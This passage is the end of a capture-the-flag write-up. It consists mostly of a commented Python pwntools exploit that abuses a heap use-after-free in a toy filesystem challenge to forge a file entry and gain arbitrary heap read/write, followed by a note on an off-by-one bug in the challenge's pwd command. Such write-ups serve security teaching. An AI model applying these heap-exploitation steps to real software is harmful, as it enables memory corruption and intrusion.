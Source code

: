```python

#Now we switch to the second pwd and redo this whole business.
#With this step, accessing /home/c01db33f/pwd1 is gone forever.
cd("/home/c01db33f/pwd2")

#To get proper clean situation, let's consume the leftover chunk of the unsorted bin.
#This adds more corruption to the original pwd, we could leverage that, but we'd rather
#leave it alone, it's a bit cleaner.

#We have 0x70 size unsorted bin chunk left.
#file_entry_t is 0x30. +0x10*2 for headers, so leaves 0x20 for data size.
#This has double use also, because it will be the chunk we modify to hit the UAF.
put("foobar2", 0x20*"D")

#Ok, now the tcache for directory_entry_t size is full, but all other bins are empty.
#So just like in the beginning!

#In that case, let's just create a chunk of data that we prep with known
#values so that it has inside of it a fake user chunk and then do the UAF again
#to get the corruption of the directory_entry_t for pwd2, this time fully overwriting
#the child pointer so that it points to the fake child pointer.
#the fake child pointer will then allow arbitrary read/write of the heap pretty much,
#because it will have its data pointer as heap_base and size as 0xFFFF.

#gdb.attach(p) #break the malloc to get the address we get back.
               #so that we know what to target in the UAF overwrite.

foobar2_chunk_addr = (0x55ff9e9399b0 - 0x55ff9e939000) + heap_base
print "data object to be used as fake file_entry_t at 0x%08x" % foobar2_chunk_addr

#we are assigning still to foobar2 so we dont trigger a new file_entry_t.
put("foobar2", p64(0) + p32(2) + "foobar2\x00".ljust(20) + p64(0xFFFF) + p64(heap_base))

#now we trigger the free of UAF the 2nd time
rmdir("/home/c01db33f/pwd2")

#and now we again assign to foobar2, again new allocation, this time overlapping
#the directory_entry_t of pwd2, making the foobar2_chunk_addr become the fake file_entry_t for
#foobar2
put("foobar2", p64(0) + p32(1) + "C"*20 + p64(2) + p64(foobar2_chunk_addr) + p64(0))

#finally: via "foobar2", we can directly R/W the entire heap.
get("foobar2") #this will print out 0xFFFF from the heap. We have won from here.

p.interactive()
```

## Bonus: Off-By-One From Hell

I mentioned that I found a couple "extra" bugs not one. Another one is simply a usability bug which matters little, apart from driving me crazy for a while. Long story short, when you invoke the `pwd` command, you always get the same exact result: "/home". This gave me fits at first as I struggled to comprehend what was actually happening. In the end, after a needlessly long time debugging the code, I realized that there is basically an off-by-one in the implementation that results in creating the pwd like this: "/home\00/path1(etc)". This of course just prints as "home" every time.
